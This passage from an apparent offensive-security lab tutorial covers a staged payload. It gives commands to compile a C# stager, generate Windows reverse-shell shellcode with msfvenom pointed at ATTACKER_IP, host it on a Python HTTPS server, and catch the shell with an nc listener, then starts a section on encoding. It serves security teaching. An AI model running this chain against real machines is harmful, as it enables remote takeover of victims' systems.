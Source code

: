 
```shell-session
PS C:\> csc staged-payload.cs
```

Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let's start by generating a shellcode (the name of the file needs to match the URL in our stager):

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let's set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:

```shell-session
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:

```shell-session
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

With all of this ready, we can now execute our stager payload. The stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember to set up an nc listener to receive the reverse shell on the same port specified when running msfvenom:

```shell-session
user@AttackBox$ nc -lvp 7474
```

# Introduction to Encoding and **Encryption**

---

## What is Encoding?

Encoding is the process of changing the data from its original state into a specific format depending on the algorithm or type of encoding. It can be applied to many data types such as videos, HTML, URLs, and binary files (EXE, Images, etc.).  
